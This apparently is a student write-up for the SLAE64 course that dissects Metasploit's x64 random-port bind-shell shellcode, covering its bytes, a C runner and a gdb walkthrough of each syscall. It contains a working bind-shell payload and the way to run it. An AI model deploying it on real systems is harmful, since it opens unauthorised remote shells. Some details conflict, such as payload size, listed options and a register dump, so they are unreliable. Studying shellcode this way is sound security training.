 ## Assignment #5.1: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `execve` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct
As i don't understand why no values are assigned to RSI and RDX in the code, a further read of the `accept()` man page, clarifies everything:
```c
...
When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
...
```
This mean that this two registers can be set to 0x00. Let's understand what the code does:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    al,0x2b     <== Syscall number for accept()
=> 0x0000555555558079 <+25>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
RSI and RDX already got the NULL (`0x00`) value at instructions at +16 and + 18. Let's review the values of the registers before the syscall:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x2b                43
rdi            0x3                 3
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
Good, the expected values. The syscall can be executed, and will return a socket descriptor in RAX. 

#### Section 4: `sys_dup2`
From the `dup2()` manpage:
```c
int dup2(int oldfd, int newfd);
```
This said, register values for this call have to be:
- RAX for the syscall number, 0x21
- RDI for the old socket descriptor. Has to be the value returned in RAX for the previous `accept` syscall
- RSI for new file descriptor to duplicate the old descriptor. Will be the file descriptor for `stdin`, `stdout`, and `stderr`. 

> Ass the `accept()` will pause the program until a connection is received, a `netcat` connection is done from another terminal. Still while debugging, the program wont work as expected because no `dup2()`and no `execve()` been done yet. 

Reviewing the code:
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) stepi
0x000055555555807d in code ()
(gdb) stepi
0x000055555555807f in code ()
(gdb) stepi
0x0000555555558081 in code ()
(gdb) stepi
0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi         <== RDI has the socket descriptor from `socket` call (that's "3")
   0x000055555555807c <+28>:	pop    rsi         <== RSI <- Socket descriptor
   0x000055555555807d <+29>:	xchg   rdi,rax     <== RDI <- Socket descriptor for the `accept`. This is the 
   0x000055555555807f <+31>:	dec    esi         <== RDI = RDI - 1
   0x0000555555558081 <+33>:	mov    al,0x21     <== Syscall Number for `dup2`
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>   <== Jumps to +31 to `dup2()` another new file descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
The code simply places the old file descriptor into RDI, and the new one into RSI. The `jne` at +37 jumps back to +31, that decrements the value for RSI to duplicate another new file descriptor. New file descriptors will be duplicated in this order: `stderr`("2"), `stdout`("1") and then `stdin`("0"). When RSI value is "0", then the jump is not done and the program continues the flow.
To check that register valuesare correct before the syscall, let's place a breakpoinit at the +35 just before executing the syscall to be able to review it the 3 times it's called. Also at +39 `push rdx` after the duplication code to stop once it's done:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rdi rsi rax
rdi            0x4                 4
rsi            0x2                 2
rax            0x21                33
(gdb) b *0x0000555555558083
Breakpoint 2 at 0x555555558083
(gdb) b *0x0000555555558087
Breakpoint 3 at 0x555555558087
(gdb) 
```
In the first loop to duplicate `stderr`, RAX has to be 0x21, RDI has to be "0x04", and RSI has to be "0x02". Let's check:
```asm
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x2                 2
(gdb) 
```
Let's `continue` execution. It will do the jump, do the operations, and again before executing the syscall. This is loop 2 to duplicate `stdout`, hence values for registers must be "0x21" for RAX, "0x04" for RDI and "0x01" for RSI:
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x1                 2
(gdb) 
```
If `continue` again, will jump to +31 again for the duplication of `stdin`. Here the values have to be RAX to "0x21", RDI keeps the "0x04" value, and RSI updates to "0x00". 
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x0                 0
(gdb) 
```
Awesome. Everything as it should. Now let's `continue` the program, and this time won't jump and will stop at +39, ending the `dup2` section:
```asm
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558087 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 5: `sys_execve`

From the `execve` manpage:
```c
int  execve  (const  char  *filename,  
              const  char *argv [], const char
              *envp[]);
```
Also reviewing the code for this section in `gdb`, there is an hex value (`0x68732f6e69622f2f`) at +40 that ends being pushed in the stack at +50. Let's see what this value is:
```python
>>> "68732f6e69622f2f".decode('hex')[::-1]
'//bin/sh'
>>> 
```` 
This means that `execve` will execute the hardcoded command `//bin/sh`. And this defines values for the registers as follows:
- RAX: Syscall number, "0x3b"
- RDI: The memory address for the `//bin/sh` string
- RSI: The pointer to the memory address containing the address of the `//bin/sh` string
- RDX: NULL value, "0x00"




















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_01.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_01.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/exec` shellcode.
- [Shellcode_01.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_01.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 

